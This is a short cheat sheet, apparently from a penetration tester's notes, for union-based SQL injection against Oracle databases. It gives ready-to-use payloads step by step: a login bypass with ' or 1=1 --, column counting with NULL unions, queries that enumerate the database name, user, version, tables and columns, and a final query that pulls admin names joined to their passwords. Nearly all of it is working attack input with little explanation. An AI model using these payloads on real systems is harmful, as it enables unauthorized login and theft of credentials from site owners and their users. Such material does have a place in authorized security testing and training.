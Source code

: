 Oracle DB Union based Injection 
**********************************

Login Page
##############

For login page try the following to login

.. code-block:: console

   ' or 1=1 -- 

Test Injection
##################

Make sure when you are testing the NULL injections that it doesn't error out. When it starts erroring out, do the last null you did before.

.. code-block:: console

        ' order by 3 --
        ' union select null,null,null from dual --
        ' union select 1,2,3 from dual --

**Note, the rest of the commands are assuming the NULL is three.**

Find DB Name
##############

.. code-block:: console

   ' union select ora_database_name,null,null from dual --

Find User
###########

.. code-block:: console

   ' union select user,null,null from dual --

Find Version
###############

.. code-block:: console

   ' union select (select banner from v$version where rownum=1),null,null from dual --

Get Table Names
##################

.. code-block:: console

   ' union select table_name,null,null from all_tables --


Get columns from specific tables
####################################

.. code-block:: console

   ' union select column_name,null,null from all_tab_columns where table_name='<table from previous command>'--

Extract data from columns
############################

This assumes the table has a column of ADMIN_NAME and PASSWORD.

.. code-block:: console

   ' union select ADMIN_NAME||PASSWORD,null,null from <table_name> --
